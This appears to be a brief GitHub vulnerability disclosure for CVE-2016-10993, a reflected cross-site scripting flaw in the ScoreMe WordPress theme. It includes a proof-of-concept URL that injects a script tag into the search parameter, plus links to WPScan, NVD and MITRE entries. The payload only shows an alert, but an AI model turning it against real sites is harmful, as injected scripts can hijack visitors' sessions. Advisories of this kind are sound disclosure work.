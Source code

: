 # CVE-2016-10993

Wordpress Vulnerability - XSS ( Cross-Site Scripting )

## **Vulnerability Location**
```https://themesinfo.com/scoreme-wordpress-theme-design-496```

## **Proof of Concept (PoC)**
```https://example.com/?s=%22%2F%3E%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E```


### Refrensi

https://wpscan.com/vulnerability/8431

https://nvd.nist.gov/vuln/detail/cve-2016-10993

https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-10993
